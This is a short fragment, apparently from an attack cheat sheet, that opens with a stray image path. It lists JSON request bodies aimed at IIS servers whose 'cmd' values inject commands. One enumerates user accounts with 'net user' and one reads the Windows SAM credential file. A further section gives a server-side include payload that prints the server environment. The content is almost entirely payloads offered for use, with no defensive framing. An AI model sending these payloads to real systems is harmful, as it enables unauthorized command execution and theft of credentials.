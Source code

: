```json
//use these for requests to IIS servers

{
  "cmd": "net user"
}


{
  "cmd": "type C:\\Windows\\System32\\config\\SAM"
}
```

## Rare 
- SSI
    - <!--#printenv -->
